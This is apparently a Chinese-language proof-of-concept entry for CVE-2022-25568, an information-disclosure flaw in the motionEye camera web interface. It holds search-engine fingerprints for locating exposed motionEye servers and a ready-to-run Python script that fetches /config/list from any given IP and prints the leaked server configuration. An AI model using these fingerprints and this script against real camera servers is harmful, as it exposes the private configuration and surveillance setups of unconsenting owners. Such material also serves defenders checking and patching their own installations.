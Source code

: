# MotionEye 视频监控组件 list 信息泄漏洞 CVE-2022-25568

# MotionEye 视频监控组件 list 信息泄漏洞 CVE-2022-25568

## 漏洞描述

*motionEye*是用Python写的motion的Web前端，它可以监视视频信号并检测运动。它可以与多种类型的摄像机配合使用,也可以与电影文件一起使用,从而使您可以分析录制的视频，其中存在一个信息泄漏漏洞，通过构造特定的URL即可获取服务器敏感信息

## 漏洞影响

```
MotionEye <= v0.42.1
```

## 网络测绘

```
banner="motionEye"

app="motionEye"
app="motionEye-摄像头服务器"
app="motionEye/0.39.3"
app="motionEye/0.40"
app="motionEye01"
app="motionEye/0.33"
app="motionEye/0.35"
```

## 漏洞复现

通过查看响应Server判断是否使用，访问路由`/config/list`

## 漏洞POC

```python
import sys
import json
import requests
def exp(url):
    if url[-1] == "/":
        url = url + "config/list"
    else:
        url = url + "/config/list"
    rus = requests.get(url, verify=False)
    print("信息泄露内容:")
    print(json.dumps(json.loads(rus.text), sort_keys=True, indent=4))
if __name__ == '__main__':
    ip = sys.argv[1]
    print("访问IP:{0}".format(ip))
    exp(ip)
```


